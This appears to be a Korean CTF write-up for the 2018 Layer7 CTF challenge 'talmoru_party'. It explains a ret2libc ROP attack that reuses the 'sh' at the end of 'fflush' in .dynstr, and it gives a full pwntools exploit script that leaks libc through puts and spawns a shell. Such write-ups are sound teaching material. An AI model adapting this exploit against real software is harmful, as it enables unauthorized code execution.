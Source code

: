 ```yaml
---
layout: post
title: "2018 Layer7 CTF talmoru_party!~"
date: 2019-11-4
ctf: Layer7 CTF
---
```


2018년 Layer7 CTF에 출제된 문제이다. 

일반적인 ROP다. 근데 함수중에 fflush가 사용된 것을 보고 .dynstr에 적재된 fflush함수의 뒤 두 글자 `sh` 를 넣어주고 익스했다. 

`objdump -h BINARY` 로 섹션 헤더를 보면 .dynstr 주소 값을 gdb로 보면 함수 이름들이 있는 것을 알 수 있다.

그래서 `system("/bin/sh")` 해주지 않아도 `system("sh")` 로 쉘을 흭득할 수 있다.

```python
from pwn import *
 
e = ELF('./talmo_party')
r = ROP(e)
#libc = ELF('./layer7.so.6')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = process('./talmo_party')
 
vuln = 0x80486e0
puts_plt = e.plt['puts']
puts_got = e.got['puts']
 
p.sendlineafter('>>','3')
 
payload = 'A'*(0x40+4)
r.puts(puts_got)
r.raw(vuln)
payload += str(r)
p.sendline(payload)
p.recvuntil('~~!\n')
 
libc_base = u32(p.recv(4)) - libc.symbols['puts']
system = libc_base + libc.symbols['system']
log.info('libcbase : ' +hex(libc_base))
 
pay2 = 'A'*(0x40+4)
pay2 += p32(system)
pay2 += 'AAAA'
pay2 += p32(0x80482da) # .dynstr -> fflush -> sh get
#pay2 += p32(libc_base+list(libc.search('/bin/sh'))[0])
p.sendline(pay2)
 
p.interactive()
```

